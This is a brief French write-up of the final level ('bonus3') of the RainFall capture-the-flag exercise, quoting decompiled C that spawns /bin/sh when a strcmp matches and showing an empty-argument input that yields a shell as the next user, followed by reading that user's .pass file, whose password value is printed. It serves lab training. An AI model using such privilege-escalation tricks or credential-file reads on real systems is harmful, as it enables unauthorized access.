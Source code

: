 # bonus3: EZ TO EZ




Nous allons pas beaucoup parler, regardons simplement cette ligne :

```c
    iVar2 = strcmp(local_98,*(char **)(param_2 + 4));
    if (iVar2 == 0) {
      execl("/bin/sh","sh",0);
```

Ok

# EXEC

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```


... END ? :D

```bash
end@RainFall:~$ cat end
Congratulations graduate!
```
